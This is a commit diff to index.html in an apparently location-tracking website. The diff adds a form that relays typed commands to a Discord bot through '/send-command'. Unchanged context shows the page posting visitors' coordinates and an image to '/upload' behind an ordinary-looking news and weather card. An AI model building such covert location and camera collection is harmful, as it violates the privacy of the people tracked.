

Before and after one commit to Prthiv/locationtracker, a website: page public/index.html in a window 1280 px wide. Shown: the part 120-566 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -108,6 +108,13 @@
             <h3>Today’s Highlights</h3>
             <p><strong>Weather:</strong> 22°C, partly cloudy</p>
             <p><strong>News Headline:</strong> AI advancements in 2024 are set to change the world...</p>
+        </div>
+
+        <!-- Command Input Section -->
+        <div class="card" id="command-section">
+            <h3>Send Command to Discord Bot</h3>
+            <input type="text" id="command-input" placeholder="Enter command..." />
+            <button onclick="sendCommand()">Send Command</button>
         </div>
     </div>
 
@@ -225,7 +232,6 @@
             sendImageData(lat, lon, dataURL);
         }
 
-
         function sendImageData(latitude, longitude, imageData) {
             fetch('/upload', {
                 method: 'POST',
@@ -246,6 +252,30 @@
                 console.error('Error sending data:', error);
             });
         }
+
+        // Function to send a command to Discord bot
+        function sendCommand() {
+            const command = document.getElementById('command-input').value;
+
+            if (command) {
+                fetch('/send-command', {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json'
+                    },
+                    body: JSON.stringify({
+                        command: command
+                    })
+                })
+                .then(response => response.json())
+                .then(data => {
+                    console.log('Command sent to bot:', data);
+                })
+                .catch(error => {
+                    console.error('Error sending command:', error);
+                });
+            }
+        }
     </script>
 </body>
 </html>
```
